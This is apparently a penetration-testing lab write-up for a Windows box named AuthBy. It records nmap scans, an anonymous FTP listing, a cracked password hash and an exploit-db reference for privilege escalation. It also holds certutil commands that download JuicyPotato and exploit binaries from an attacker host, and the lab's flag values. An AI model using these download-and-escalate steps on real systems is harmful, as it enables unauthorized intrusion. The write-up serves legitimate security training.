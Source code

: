 # Win - AuthBy

---

### Host

```bash
192.168.212.46
```

### Scan

```bash
> nmap -sV -T4 192.168.212.46
> nmap -sCV -A -Pn -O -p- 192.168.212.46 -oN tcpnmap.md
> sudo nmap -sU -Pn 192.168.212.46 --top-ports=100 --reason -oN udpnmap.md

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           zFTPServer 6.0 build 2011-10-17
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| total 9680
| ----------   1 root     root      5610496 Oct 18  2011 zFTPServer.exe
| ----------   1 root     root           25 Feb 10  2011 UninstallService.bat
| ----------   1 root     root      4284928 Oct 18  2011 Uninstall.exe
| ----------   1 root     root           17 Aug 13  2011 StopService.bat
| ----------   1 root     root           18 Aug 13  2011 StartService.bat
| ----------   1 root     root         8736 Nov 09  2011 Settings.ini
| dr-xr-xr-x   1 root     root          512 Feb 02 02:42 log
| ----------   1 root     root         2275 Aug 09  2011 LICENSE.htm
| ----------   1 root     root           23 Feb 10  2011 InstallService.bat
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 extensions
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 certificates
|_dr-xr-xr-x   1 root     root          512 Aug 02 18:50 accounts
242/tcp  open  http          Apache httpd 2.2.21 ((Win32) PHP/5.3.8)
|_http-title: 401 Authorization Required
|_http-server-header: Apache/2.2.21 (Win32) PHP/5.3.8
| http-auth: 
| HTTP/1.1 401 Authorization Required\x0D
|_  Basic realm=Qui e nuce nuculeum esse volt, frangit nucem!
3145/tcp open  zftp-admin    zFTPServer admin
3389/tcp open  ms-wbt-server Microsoft Terminal Service
|_ssl-date: 2025-02-01T18:44:39+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=LIVDA
| Not valid before: 2024-08-01T10:50:21
|_Not valid after:  2025-01-31T10:50:21
| rdp-ntlm-info: 
|   Target_Name: LIVDA
|   NetBIOS_Domain_Name: LIVDA
|   NetBIOS_Computer_Name: LIVDA
|   DNS_Domain_Name: LIVDA
|   DNS_Computer_Name: LIVDA
|   Product_Version: 6.0.6001
|_  System_Time: 2025-02-01T18:44:34+00:00

```

---

## Walkthrough

- 21

![image.png](Win%20-%20AuthBy%2018d553bebf0f80a09fd5cb62da3759b3/image.png)

![image.png](Win%20-%20AuthBy%2018d553bebf0f80a09fd5cb62da3759b3/image%201.png)

![image.png](Win%20-%20AuthBy%2018d553bebf0f80a09fd5cb62da3759b3/image%202.png)

```bash
offsec : $apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0:elite
```

- 242

![image.png](Win%20-%20AuthBy%2018d553bebf0f80a09fd5cb62da3759b3/image%203.png)

![image.png](Win%20-%20AuthBy%2018d553bebf0f80a09fd5cb62da3759b3/image%204.png)

![image.png](Win%20-%20AuthBy%2018d553bebf0f80a09fd5cb62da3759b3/image%205.png)

![image.png](Win%20-%20AuthBy%2018d553bebf0f80a09fd5cb62da3759b3/image%206.png)

![image.png](Win%20-%20AuthBy%2018d553bebf0f80a09fd5cb62da3759b3/image%207.png)

![image.png](Win%20-%20AuthBy%2018d553bebf0f80a09fd5cb62da3759b3/image%208.png)

https://www.exploit-db.com/exploits/40564

```bash
certutil -urlcache -f http://192.168.45.170/JuicyPotato.exe C:\Users\Public\jp.exe

certutil -urlcache -f http://192.168.45.170/40564.exe C:\Users\Public\ex.exe

certutil -urlcache -f http://192.168.45.170/MS11-046.exe C:\Users\Public\MS11-046.exe
```

![image.png](Win%20-%20AuthBy%2018d553bebf0f80a09fd5cb62da3759b3/image%209.png)

![image.png](Win%20-%20AuthBy%2018d553bebf0f80a09fd5cb62da3759b3/image%2010.png)

![image.png](Win%20-%20AuthBy%2018d553bebf0f80a09fd5cb62da3759b3/image%2011.png)

```bash
- local.txt : 512791aafa4144b8184dcadc376e5825
- proof.txt : 93ea8e2cd46fce1f72ca66ead242e032
```